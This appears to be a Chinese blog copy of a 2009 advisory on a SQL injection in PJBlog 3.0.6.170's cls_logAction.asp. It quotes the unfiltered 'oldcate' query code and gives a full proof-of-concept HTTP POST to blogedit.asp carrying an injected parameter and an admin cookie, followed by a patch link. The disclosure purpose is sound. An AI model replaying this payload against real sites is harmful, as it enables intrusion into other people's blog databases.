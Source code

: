 ```yaml
---
title: PJBlog 3.0.6.170 cls_logAction.asp SQL注入漏洞
description: PJBlog3.0.6.170cls_logAction.aspSQL注入漏洞影响版本:PJBlog3.0.6.170程序介绍:PJBlog是一套开源免费的中文个人博客系统程序，采用asp+Access的技术，具有相当高的运作效能以及更新率，也支持目前Blog所使用的新技术。漏洞分析:在文件class/cls_logAction.asp中：……
date: 2009-05-10 09:42:15
category: 漏洞信息
tags: ['PJblog', '注入', '漏洞信息']
post_id: 861
alias: PJBlog-3.0.6.170-cls_logAction.asp-SQLInjection
ViewNums: 2976
---
```


[PJBlog 3.0.6.170 cls_logAction.asp SQL注入漏洞](/blog/pjblog-306170-cls_logactionasp-sqlinjection)

影响版本:[PJBlog 3.0.6.170](/blog/pjblog-306170-cls_logactionasp-sqlinjection)

**程序介绍:**
[PJBlog](/tags/PJblog)是一套开源免费的中文个人博客系统程序，采用asp+Access的技术，具有相当高的运作效能以及更新率，也支持目前[Blog](/blog/)所使用的新技术。

**漏洞分析:**
在文件[class/cls_logAction.asp](/blog/pjblog-306170-cls_logactionasp-sqlinjection)中：

oldcate=request.form("oldcate")  //第429行
oldctype=request.form("oldtype")

D = conn.execute("select cate_Part from blog_Category where  cate_ID="&oldcate)(0)

程序没有对变量oldcate做任何过滤放入sql查询语句中，导致[注入漏洞](/tags/%E6%B3%A8%E5%85%A5)的产生。

**漏洞利用:**

POST /blogedit.asp HTTP/1.1
Accept: application/x-shockwave-flash,  image/gif, image/x-xbitmap,
image/jpeg, image/pjpeg, application/msword,  application/vnd.ms-excel,
application/vnd.ms-powerpoint, */*
Referer: http://127.0.0.1/blogedit.asp?id=1
Accept-Language:  zh-cn
Content-Type: application/x-www-form-urlencoded
UA-CPU:  x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible;  MSIE 7.0; Windows NT 5.1;
TencentTraveler 4.0; .NET CLR 2.0.50727)
Host:  127.0.0.1
Content-Length: 513
Connection: Keep-Alive
Cache-Control:  no-cache
Cookie:  __utma=96992031.4542583209449947600.1239335726.
1240296350.1240324232.7;  __utmz=96992031.1239335726.1.1.utmcsr=
(direct)|utmccn=(direct)|utmcmd=(none);  PJBlog3Setting=ViewType=normal;
PJBlog3=memRight=111111111111&memHashKey=
c80f369e20b317566f736dbc70839834745d9c20&memName=admin&exp=
2010%2D4%2D21;  ASPSESSIONIDCCDSDABA=OEBBHCODJFKIJEGKGCPHGMCP

id=1&log_editType=1&action=post&log_IsDraft=False&title=xxx&log_CateID=
3&cname=xxx&ctype=0&oldcname=xxx&oldtype=0&oldcate=3201=1&log_weather=
sunny&log_Status=level3&log_comorder=1&blog_pws=0&log_Readpw=
&log_Pwtips=&c_pws=0&blog_Meta=0&evio_KeyWords=xxx&evio_Description=
web+safe&log_From=%E6%9C%AC%E7%AB%99%E5%8E%9F%E5%88%9B&
log_FromURL=http%3A%2F%2Flocalhost%2Fbackci%2F&PubTimeType=
com&PubTime=2009-4-21+15%3A54%3A46&tags=&UBBfonts=&UBBfonts=
&UBBfonts=&UBBmethod=on&Message=web+safe&log_Intro=web+safe&log_Quote=

**解决方案:**
厂商补丁：
[PJblog](/tags/PJblog)
-------
目前厂商已经发布了升级补丁以修复这个安全问题，请到厂商的主页下载：
<http://bbs.pjhome.net/thread-52214-1-1.html>

**信息来源:**
<*来源: Bug.Center.Team [http://www.cnbct.org](http://www.cnbct.org/)
链接: <http://wavdb.com/vuln/1410> *>

相关：
[PJBlog 3.0.6.170 Getarticle.asp页面跨站脚本攻击XSS漏洞](/blog/pjblog-306170-getarticleasp-xss)
[PJBlog 3.0.6.170 Action.asp页面跨站脚本攻击漏洞](/blog/pjblog-306170-actionasp-xss)
[PJblog V3.0 0day Vbs版漏洞利用工具exploit](/blog/pjblog-v30-0day-vbs-exploit)


